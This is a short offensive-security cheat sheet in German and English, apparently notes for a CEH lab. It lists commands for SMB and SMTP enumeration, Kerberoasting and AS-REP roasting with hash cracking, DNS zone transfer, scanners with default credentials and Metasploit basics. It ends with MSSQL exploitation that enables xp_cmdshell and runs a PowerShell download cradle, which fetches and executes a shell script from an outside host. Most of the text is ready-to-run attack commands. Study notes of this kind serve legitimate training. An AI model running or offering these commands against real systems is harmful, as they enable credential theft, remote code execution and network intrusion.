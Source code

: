 

## Enum: 

### Windows

- Superenum -> nfs share enumeration?
- Global network inventory -> ???
- Nbtscan -> netbios
-     smbclient -L //IPADRESSE -U user --password=pw

---
#### Kerberoasting: 

    rubeus.exe kerberoast /outfile:hash.txt

#### AS-REP Roasting:    

- PORT 389 und 88 offen!
- GOTO: /root/impacket/examples
-     python3 GetNPUsers.py CEH.com/ -no-pass -usersfile /root/ADtools/users.txt -dc-ip 10.10.1.22
-     john --wordlist=rockyou.txt hash.txt

---
### General

- Nslookup / dig soa XXX.com -> dns zone transfer
- docker run -d -p 443:443 --name openvas mikesplain/openvas
    - admin:password oder admin:admin
- webappscanner: wapitit / sn1per / wpscan
- dockerscanner: trivy image imagename
-     smtp-user-enum -U /path/to/usernames.txt -t <IP Address> -m 150 -M <mode>




---
## Exploit:

### Metasploit (msfconsole):

 - suche: search xxx
 - exploit nutzen: use xxx
 - flags listen: options
---
### SQL: 
- impacket xmp shell aktivieren
    -     python3 /root/impacket/examples/mssqlclient.py CEH.com/SQL_srv:batman@10.10.1.30 -port 1433 (-windows-auth)
	      enable_xp_cmdshell
          xp_cmdshell "whoami"
	      EXEC xp_cmdshell 'echo IEX (New-Object Net.WebClient).DownloadString("http://172.25.0.10:8000/shell.ps1") | powershell -noprofile'
	      SELECT name, CONVERT(INT, ISNULL(value, value_in_use)) AS IsConfigured FROM sys.configurations WHERE name='xp_cmdshell';
	